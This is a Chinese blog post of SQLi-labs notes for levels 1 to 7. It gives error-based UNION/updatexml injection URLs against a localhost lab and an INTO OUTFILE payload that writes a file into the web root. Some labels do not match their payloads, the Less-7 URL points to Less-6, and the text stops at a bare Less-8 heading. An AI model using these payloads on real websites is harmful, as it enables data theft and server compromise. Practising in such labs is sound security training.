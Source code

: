 ```yaml
---
id: 151
title: SQLi-labs笔记
date: 2016-05-31T18:54:39+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=151
permalink: /sqli-labs-notes/
categories:
  - WEB
tags:
  - sqli
  - sqli-labs
  - sql注入
---
```

**less-1**

单引号报错注入，无回显位，利用一些函数，这里附上一个老毛子的链接：http://blackfan.ru/mysql_game/

payload:http://localhost/sqli-labs/Less-1/?id=1&#8217;+union+select+updatexml(0,concat(0x3c,version()),0)%23

**less-2**

整数型报错注入，无回显位，同上

payload:http://localhost/sqli-labs/Less-2/?id=1+union+select+updatexml(0,concat(0x3c,version()),0)%23

**less-3**

有单括号加单引号的报错注入，无回显位，利用同上

payload:http://localhost/sqli-labs/Less-3/?id=1&#8242;)+union+select+updatexml(0,concat(0x3c,version()),0)%23

**less-4**

有单括号加双引号的报错注入，无回显位，利用同上：

payload:http://localhost/sqli-labs/Less-4/?id=1&#8243;)+union+select+updatexml(0,concat(0x3c,version()),0)%23

**less-5**

同less-1一样
  
payload:http://localhost/sqli-labs/Less-5/?id=1&#8217;+union+select+updatexml(0,concat(0x3c,version()),0)%23

**less-6**

同less-2一样**
  
** 

payload:http://localhost/sqli-labs/Less-6/?id=1&#8217;+union+select+updatexml(0,concat(0x3c,version()),0)%23

&nbsp;

**less-7**

无回显，无报错信息，根据题目信息使用loadfile,但是由于本地权限限制，写不了文件，这里给出payload：

payload:http://localhost/sqli-labs/Less-6/?id=1&#8217;+union+select+1,2,3+into+outfile+&#8221;/var/www/html/sqli-labs/test.txt&#8221;&#8211;+

&nbsp;

**less-8**

&nbsp;